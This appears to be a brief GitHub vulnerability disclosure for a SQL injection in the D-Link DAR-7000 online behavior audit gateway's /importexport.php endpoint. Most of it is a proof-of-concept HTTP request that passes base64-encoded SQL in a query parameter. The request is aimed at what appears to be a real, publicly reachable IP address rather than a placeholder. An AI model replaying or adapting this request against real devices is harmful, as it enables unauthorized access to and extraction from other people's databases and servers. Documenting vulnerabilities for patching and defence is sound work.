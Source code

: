 There is a backend SQL injection vulnerability in the D-LINK DAR-7000 series online behavior audit gateway. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.
official： http://www.dlink.com.cn/

version:DAR-7000

Vulnerability Path ：/importexport.php
<img width="743" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/47c12a81-4b76-4f9c-895f-6cd979eb4b80">

poc：
```
GET /importexport.php?sql=c2VsZWN0IDEsZGF0YWJhc2UoKSx2ZXJzaW9uKCk=&type=exportexcelbysql HTTP/1.1
Host: 60.22.74.195:8443
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```
<img width="752" alt="图片" src="https://github.com/llixixi/cve/assets/144869546/47988d78-26a0-4071-995c-9593c6b9b320">


